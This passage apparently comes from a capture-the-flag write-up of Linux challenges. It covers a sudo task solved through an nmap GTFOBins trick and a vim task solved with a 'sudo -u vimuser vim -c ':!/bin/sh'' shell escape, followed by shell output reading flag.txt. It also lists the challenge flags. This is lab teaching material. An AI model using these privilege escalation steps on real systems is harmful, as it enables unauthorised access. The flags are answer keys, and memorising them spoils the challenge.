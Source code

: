 ### Flag

```
HF-661a224a12a754dd176b229f5de7ff4a
```

## Sudo

* **Track:** linux
* **Points:** 4

### Challenge

> The user cerealkiller has some sudo privileges. Learn to use sudo  to be able to read the flag in the user "phantom" home directory.
> Requirement: You need to have done the SSH Challenge first Recommendation: Read on sudo

### Solution

Using the same technique with nmap but with phantom user.  When it works it works...
    phantom@ip-172-31-16-57:/home/phantom$ HF-0f06d368868f3b63b99c6bbbb6b52628

### Tool

* https://gtfobins.github.io/gtfobins/nmap/

### Flag

```
HF-0f06d368868f3b63b99c6bbbb6b52628
```

## Vim

* **Track:** linux
* **Points:** 5

### Challenge

> Vim is a popular text editor for Linux, but there are a lot more  that you can do with it rather than just editing text.  Can you find out  what?
> You are allowed to run vim as another user, learn what you can do with that.

### Solution

    cerealkiller@ip-172-31-16-57:~$ sudo -u vimuser vim -c ':!/bin/sh'

    $ whoami
    vimuser
    $ ls
    65	  Baron     SHAWIGANG	   holla  nmap.old  test.nse
    Allo	  Phil	    flag.txt	   nancy  nmap.sh
    Allo.txt  PhiletPO  flag.txt.save  nmap   test.lua
    $ cd ..
    $ ls
    cerealkiller  oracle	phantom   ubuntu
    nmapuser      pathuser	ssm-user  vimuser
    $ cd vimuser
    $ ls
    flag.txt
    $ cat flag.txt
    HF-f898198629bb686f1dfc3d1ac8b13506
